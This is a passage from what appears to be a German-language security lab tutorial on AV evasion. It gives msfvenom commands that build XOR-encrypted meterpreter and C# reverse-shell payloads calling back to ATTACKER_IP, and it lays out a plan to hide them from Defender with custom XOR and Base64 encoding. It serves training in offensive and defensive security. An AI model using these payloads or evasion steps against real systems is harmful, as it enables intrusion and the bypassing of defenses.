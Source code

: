 Wenn Encoding nicht funktioniert, können wir immer versuchen, den Payload zu verschlüsseln. Intuitiv würden wir erwarten, dass dies eine höhere Erfolgsrate hat, da das Entschlüsseln des Payloads für das AV-Programm eine schwierigere Aufgabe darstellen sollte. Lassen Sie uns das jetzt ausprobieren.

### Verschlüsselung mit MSFVenom

Sie können mit msfvenom leicht verschlüsselte Payloads generieren. Die Auswahl an Verschlüsselungsalgorithmen ist jedoch etwas begrenzt. Um die verfügbaren Verschlüsselungsalgorithmen aufzulisten, können Sie den folgenden Befehl verwenden:
```shell           
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor        
```

Lassen Sie uns einen XOR-verschlüsselten Payload erstellen. Bei diesem Algorithmustyp müssen Sie einen Schlüssel angeben. Der Befehl würde wie folgt aussehen:
```shell           
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe        
```

Wenn wir die resultierende Shell erneut auf die THM Antivirus Check! Seite unter ```http://MACHINE_IP/``` hochladen, wird sie immer noch vom AV erkannt. Der Grund dafür ist, dass AV-Anbieter viel Zeit investiert haben, um sicherzustellen, dass einfache msfvenom-Payloads erkannt werden.

### Erstellung eines benutzerdefinierten Payloads

Der beste Weg, dies zu umgehen, besteht darin, eigene benutzerdefinierte Encoding-Schemata zu verwenden, sodass das AV-Programm nicht weiß, wie es unseren Payload analysieren soll. Beachten Sie, dass Sie nichts allzu Komplexes tun müssen, solange es für das AV-Programm verwirrend genug ist, um die Analyse zu erschweren. Für diese Aufgabe werden wir eine einfache Reverse Shell verwenden, die mit msfvenom generiert wurde, und eine Kombination aus XOR und Base64 anwenden, um Defender zu umgehen.

Lassen Sie uns mit der Generierung einer Reverse Shell im CSharp-Format mit msfvenom beginnen:
```shell           
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

### Der Encoder
